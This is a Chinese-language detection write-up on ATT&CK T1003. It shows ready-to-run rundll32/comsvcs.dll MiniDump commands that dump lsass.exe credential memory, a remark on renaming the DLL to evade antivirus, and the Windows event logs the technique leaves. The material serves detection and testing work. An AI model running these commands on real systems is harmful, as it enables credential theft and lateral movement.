 # T1003-Win-使用comsvcs.dll转储Lsass.exe内存

## 来自ATT&CK的描述

凭据转储是从操作系统和软件获取账号登录名和密码（哈希或明文密码）信息的过程。然后可以使用凭据来执行横向移动并访问受限制的信息。

攻击者和专业安全测试人员都可能会使用此技术中提到的几种工具。也可能存在其他自定义工具。

## 测试案例

comsvcs.dll，在系统崩溃时转储进程内存的系统窗口和系统32，通过rundll32编写，该dll包含函数MiniDump。

## 检测日志

- windows 安全日志
- windows Sysmon日志
- Windows Powershell日志

## 测试复现

```yml
powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump 648 C:\AtomicRedTeam\lsass.dmp full"
#注意：这里648是lsass.exe的PID。
#通过命令tasklist | findstr lsass.exe查找PID值。

C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full
```

可直接调用rundll32进程(**需要Admin或Root权限**)，在2021年2月一篇文章中提到通过修改comsvcs.dll路径或名称，可绕过火绒/360安全卫士，经过10月实际测试，无法绕过360安全卫士。

## 测试留痕

```log
#Powershell日志，事件ID:400
引擎状态已从 None 更改为 Available。

详细信息: 
 NewEngineState=Available
 PreviousEngineState=None

 SequenceNumber=13

 HostName=ConsoleHost
 HostVersion=5.1.14393.206
 HostId=beebd53e-f854-42ea-8d25-a148d224b726
 HostApplication=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c rundll32 C:\windows\system32\comsvcs.dll, MiniDump 648 C:\AtomicRedTeam\lsass.dmp full
 EngineVersion=5.1.14393.206
 RunspaceId=af860283-73a9-452c-a1cd-ea808dbaf232
 PipelineId=
 CommandName=
 CommandType=
 ScriptName=
 CommandPath=
 CommandLine=
```

```log
#windows安全日志，事件ID：4688
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xCF2BF2

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x11020
 新进程名称: C:\Windows\System32\rundll32.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x1abc
 创建者进程名称: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 进程命令行: "C:\Windows\system32\rundll32.exe" C:\windows\system32\comsvcs.dll MiniDump 648 C:\AtomicRedTeam\lsass.dmp full

“令牌提升类型”表示根据用户帐户控制策略分配给新进程的令牌类型。

类型 1 是未删除特权或未禁用组的完全令牌。完全令牌仅在禁用了用户帐户控制或者用户是内置管理员帐户或服务帐户的情况下使用。

类型 2 是未删除特权或未禁用组的提升令牌。当启用了用户帐户控制并且用户选择使用“以管理员身份运行”选项启动程序时，会使用提升令牌。当应用程序配置为始终需要管理特权或始终需要最高特权并且用户是管理员组的成员时，也会使用提升令牌。

类型 3 是删除了管理特权并禁用了管理组的受限令牌。当启用了用户帐户控制，应用程序不需要管理特权并且用户未选择使用“以管理员身份运行”选项启动程序时，会使用受限令牌。
```

## 检测规则/思路

重点关注rundll32进程的异常行为。由于dll名称可变，无法通过日志针对进程名称进行有效监测。

## 建议

安装终端防护似乎是个不错的选择。

## 参考推荐

MITRE-ATT&CK-T1003

<https://attack.mitre.org/techniques/T1003/>

comsvcs.dll转储lsass（过360卫士&火绒）

<https://www.cnblogs.com/Yang34/p/14418572.html>

Windows明文密码获取

<https://blog.csdn.net/xiangshen1990/article/details/104865393>
